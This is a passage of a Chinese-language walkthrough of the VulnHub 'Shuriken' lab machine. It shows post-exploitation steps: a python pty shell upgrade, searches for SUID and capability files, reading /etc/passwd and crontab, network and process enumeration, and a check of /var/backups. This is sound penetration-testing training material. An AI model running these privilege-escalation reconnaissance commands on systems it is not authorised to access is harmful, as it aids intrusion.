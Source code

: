 ```shell
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

# 靶机内信息收集

使用`find`寻找具有SUID权限的文件，发现`sudo`但是需要密码

```shell
find / -perm -u=s -type f 2>/dev/null
```

![](D:\stu\vulnhub\shuriken靶场\pic-2\17.jpg)

使用`find`寻找`capabilites`文件，发现没有可利用的

```shell
find / -type f -executable 2>/dev/null | xargs getcap -r 2>/dev/null
```

![](D:\stu\vulnhub\shuriken靶场\pic-2\18.jpg)

收集系统内核、定时任务、用户数量等操作

```shell
uname -a
cat /etc/crontab
cat /etc/passwd | grep /bin/bash
ls /home
```

![](D:\stu\vulnhub\shuriken靶场\pic-2\19.jpg)

收集网络状态信息

```shell
ip addr
ss -antlp
```

![](D:\stu\vulnhub\shuriken靶场\pic-2\20.jpg)

还有进程方面的信息，但是太多不好截图，就放命令

```shell
top 
free -h
ps aux
等等
```

查看日志文件有无查看权限，发现没有权限，一般日志文件在`/var/log`中

继续查看备份文件，一般在`/var/backups`中，这里发现一个压缩包，并且所属用户`serv-adm`的，不过具有查看权限

![](D:\stu\vulnhub\shuriken靶场\pic-2\21.jpg)
